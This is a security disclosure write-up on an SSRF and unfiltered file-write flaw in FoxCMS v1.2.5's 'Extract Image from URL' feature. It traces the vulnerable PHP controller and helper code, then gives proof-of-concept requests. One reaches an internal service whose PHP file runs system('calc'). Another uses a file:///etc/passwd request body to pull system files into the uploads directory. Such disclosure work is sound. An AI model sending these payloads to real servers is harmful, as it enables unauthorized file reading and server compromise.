





### FoxCMS v1.2.5 SSRF Vulnerability

The latest version of FoxCMS (v1.2.5) has a SSRF vulnerability in the remote image download feature. This vulnerability allows attackers to use the `file` pseudo-protocol to read internal network and arbitrary server files. Additionally, attackers can scan local and internal ports, enabling them to attack local and internal services.

### Debugging and Analysis

The vulnerability is in the controller file `app\admin\controller\PicManager.php`, which calls the `getImg` method:
```php
elseif ($type == "extract") {
    $groupId = 0;
    $url = $param["extractUrl"];
    $result = $this->getImg($url);
    if ($result["code"] == 0) {
        return $result;
    }
    $result = [
        "total" => 0,
        "currentPage" => 0,
        "pageSize" => 0,
        "imgList" => 0,
        "groupId" => $groupId,
        "groupList" => $groupList,
        "type" => $type,
        "handle" => $handle,
        "startDate" => $startDate,
        "endDate" => $endDate,
        "extractedUrl" => $result["file"],
        "id" => $result["id"]
    ];
```

The `getImg` function calls the `download` method and then the `upload` method:
```php
private function getImg($url = "", $filename = "")
{
    $imageUtil = new ImageUtil();
    $fileName = $imageUtil->download($url, $filename); // Full local file path
    if (empty($fileName)) {
        return ['code' => 0, 'msg' => "Failed to fetch file"];
    }
    $file = new File($fileName);
    $result = $imageUtil->upload($file);
    if ($result['code'] == 1) {
        unlink($fileName);
        return $result;
    } else {
        return ['code' => 0, 'msg' => "Upload failed"];
    }
}
```
In the `download` method, the `url` is completely controllable and calls the `get_url_content` method:
```php
public function download($url = "", $filename = "", $path = "")
{
    $filePath = config('filesystem.disks.folder') . DIRECTORY_SEPARATOR . date("Ymd");
    if (!empty($path)) {
        $filePath = $path;
    }
    if (!is_dir($filePath)) {
        tp_mkdir($filePath);
    }
    if (empty($filename)) {
        // Upload to local server
        $filename = basename($url);
    }
    $filename = $filePath . DIRECTORY_SEPARATOR . $filename;
    $content = get_url_content($url);
    file_put_contents($filename, $content);
    return $filename;
}
```
The filename in the `download` method is derived from the URL request, and there is no filtering, so a PHP file can be downloaded and written directly using `file_put_contents`. The default save path is `uploads/date("Ymd")/`.

The `get_url_content` method directly calls cURL to request the URL, which introduces an SSRF vulnerability:
```php
function get_url_content($url)
{
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $result = curl_exec($ch);
    return $result;
}
```

However, when attempting to upload, there is a WAF check for file extensions. If the extension is not in the whitelist, the system will return `code=0`, bypassing the `unlink` deletion.



```php
public function upload($file, $groupId = 0, $fileType = "image", $app = 1, $folder_name = "files", $upload_type = 0)
{
    // Record file in the database
    $OriginalName = "";
    if (method_exists($file, "getOriginalName")) { // Check if method exists
        $OriginalName = $file->getOriginalName();
    } else {
        $OriginalName = $file->getFilename();
    }

    // File extension
    if (method_exists($file, "getOriginalExtension")) {
        $imageType = $file->getOriginalExtension();
    } else {
        $imageType = $file->getExtension();
    }

    if (!$this->validationSuffix($imageType)) { // Validate image type
        return ['code' => 0, 'msg' => 'Please upload a ' . $this->attachment['i_suffixs'] . ' format file', "originalName" => $OriginalName];
    }
}
```

### SSRF Attack

We start a local web service to simulate an internal network:
```r
php -S 127.0.0.1:8999
```

Then, place a `2.php` file that calls `calc`:
```php
<?php
system('calc');
```

In the "Company Profile" section, add an image -> choose "Extract Image from URL". Construct the POC:
```r
http://127.0.0.1:8999/2.php
```



We can see the internal web service received the request, and the `2.php` was executed, opening the calculator: successful SSRF attack.



This vulnerability also causes the SSRF to fetch file contents and write them into the `uploads/date("Ymd")/` directory. We can use the `file` pseudo-protocol to read internal and system files.

In the "Company Profile" section, add an image -> choose "Extract Image from URL". We capture the request and construct a POC for SSRF to read files:
```r
handle=get&type=extract&extractUrl=file:///etc/passwd&isStamped=0&event=change
```



Then, we check the upload path and successfully retrieve the file contents:
```r
/uploads/20250125/passwd
```

